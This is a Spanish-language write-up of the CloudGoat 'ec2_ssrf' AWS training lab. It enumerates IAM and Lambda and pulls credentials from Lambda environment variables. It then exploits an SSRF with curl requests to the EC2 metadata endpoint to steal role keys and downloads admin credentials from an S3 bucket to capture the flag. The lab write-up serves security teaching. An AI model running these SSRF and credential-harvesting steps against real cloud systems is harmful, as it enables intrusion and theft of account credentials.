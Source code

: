 ```yaml
---
description: 'Lab: CloudGoat'
---
```


# EC2\_SSRF

## Laboratorio

En este apartado se observará el ejemplo utilizando el laboratorio <mark style="color:green;">**cloudgoat**</mark> el escenario ec2\_ssrf. En este escenario comenzaremos con el usuario SOLUS que tiene bajos privilegios y luego de una enumeración sobre la infraestructura, lograremos identificar un aplicativo web que está alojado en un EC2 vulnerable a ataques SSRF. Luego de aprovechar esta vulnerabilidad, lograremos comprometer unas credenciales de acceso por medio del servicio de metadatos

{% hint style="danger" %}
El desarrollo de este ejercicio puede llegar a consumir recursos económicos dentro de las cuentas de AWS.
{% endhint %}

{% embed url="https://github.com/RhinoSecurityLabs/cloudgoat/tree/master/scenarios/ec2_ssrf" %}

Objetivo: Invocar la función de Lambda "cg-lambda-\[ CloudGoat ID ]".

### Configuración Inicial

Checar instalación de CloudGoad en:

{% content-ref url="./" %}
[.](./)
{% endcontent-ref %}

Lanzar el escenario con

```bash
./cloudgoat.py create ec2_ssrf
```

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Configurar las credenciales iniciales al finalizar el comando anterior

```
aws configure --profile solus
```

<figure><img src="../../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

### Explotación

Como en toda fase de pentesting, primero se inicia con la enumeración, en este caso se hará uso de la herramienta [<mark style="color:green;">**cliam**</mark>](https://github.com/securisec/cliam), pero se puede hacer de manera manual o con otras herramientas:

```bash
cliam aws enumerate iam s3 ec2 lambda --profile solus
```

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Al parecer el usuario tiene capacidad de _list_ sobre el servicio lambda de AWS, el objetivo de del laboratorio es ejecutar la función "cg-lambda-\[ CloudGoat ID ]", se procede a buscar e intentar ejecutar la función:

```
aws lambda list-functions --profile solus
```

<figure><img src="../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

Como se observa en la salida, se puede saber el nombre de la función "<mark style="color:green;">**cg-lambda-ec2\_ssrf\_cgiddojqir0rks**</mark>". También se observar variables de ambiente que contiene las credenciales del rol que se conecta con la instancia EC2, procedemos a intentar ejecutar la función

{% code overflow="wrap" %}
```
aws lambda invoke --function-name cg-lambda-ec2_ssrf_cgiddojqir0rks ./out.txt --profile solus
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

Al parecer, el usuario inicia no tiene permisos de ejecución sobre lambdas, se procede a configurar las llaves encontradas en la función y enumerar:

```
aws configure --profile lambda
aws sts get-caller-identity --profile lambda
```

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Al realizar la enumeración, parece que el perfil lambda tiene full permisos en los servicios EC2

<figure><img src="../../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

Se procede intentar listar las instancias en la nube

<figure><img src="../../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

Existe una instancia en la nube que ofrece una IP publica con un DNS, se procede a realizar OSINT sobre ese dominio para saber que servicios ofrece:

```
sudo nmap -sS -sV -T4 -Pn domain
```

<figure><img src="../../../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

Al parecer, la computadora que corre sobre el servicio EC2 es un Ubuntu que expone el puerto 80 para dar servicio de http con el framework Node.js, procedamos a consumir ese servicio por medio de un navegador web:

<figure><img src="../../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

Al entrar por la web, el aplicativo expone un error indicando sobre un parámetro faltante en la petición, al colocarlo se obtiene lo siguiente:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

El aplicativo, parece hacer una llamada sobre el parámetro y exponer  el valor de entrada en el aplicativo, en un péntesting web se puede realizar diferentes ataques, como XSS, OS Inyection, entre otros, en este caso el aplicativo es claro que trata de hacer una petición a otro sitio, al coloral el valor www.google.com se puede observar esta acción:

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

Se tiene que hacer explotación de la vulnerabilidad conocida como SSFF. La falsificación de solicitudes del lado del servidor (también conocida como SSRF) es una vulnerabilidad de seguridad web que permite a un atacante inducir a la aplicación del lado del servidor a realizar solicitudes a una ubicación no deseada.

{% embed url="https://portswigger.net/web-security/ssrf" %}

Como lo estudiado previamente en este blog en la entrada:

{% content-ref url="../" %}
[..](../)
{% endcontent-ref %}

Existe un End Point en AWS al cual todas las maquinas EC2 puede consumir de manera interna para la consulta de los metadatos, estos metadatos son ocupados por las instancias para configurar o administrar la instancia en ejecución, estos metadatos de instancia se dividen en categorías, como, por ejemplo, nombre de host, eventos y grupos de seguridad.

{% embed url="https://docs.aws.amazon.com/es_es/AWSEC2/latest/UserGuide/ec2-instance-metadata.html" %}

Como indica la documentación de amazon AWS, estos metadatos no está protegidos criptográficamente, entonces aprovechando la vulnerabilidad del sitio web, se puede realizar una llamada sobre en endpoint `http://169.254.169.254/latest/meta-data` para tratar de consumir estos metadatos.

{% code overflow="wrap" %}
```
curl http://domain.com/?url=http://169.254.169.254/latest/meta-data
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

En este punto, se pueden listar las carpetas y la información valiosa, un servicio que es interesante de consumir es el siguiente:

{% code overflow="wrap" %}
```
curl http://domain.com/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/rol
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

Esta api, permite generar nuevas llaves de acceso para el rol / usuario que administra la Instancia EC2, se procede a configurarlas y enumerar

<figure><img src="../../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

¿Qué hacer cuando se tienen credenciales? enumerar, enumerar y enumerar

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Al parecer este rol solo tiene acceso a listar buckets, pues listemos buckets s3

```
aws s3 ls --profile ec2
```

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

¿Se podrá listar el contendio y descargar archivos? ¡Pongámoslo a prueba !

{% code overflow="wrap" %}
```
aws s3 ls s3://cg-secret-s3-bucket-<cloudgoat_id> --profile ec2

aws s3 cp s3://cg-secret-s3-bucket-<cloudgoat_id>/admin-user.txt ./ --profile ec2

cat admin-user.txt
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

Al parecer, este bucket es para guardar un archivo muy secreto donde contiene las credenciajes de administrador de algo... encontramos credenciales, procedemos a configurarlas y usarlas, a ver si con este usuario podemos ejecutar la función inicial:

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

¿Conque shepard ? ejecutemos la función lambda inicial y obtengamos la bandera&#x20;

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>







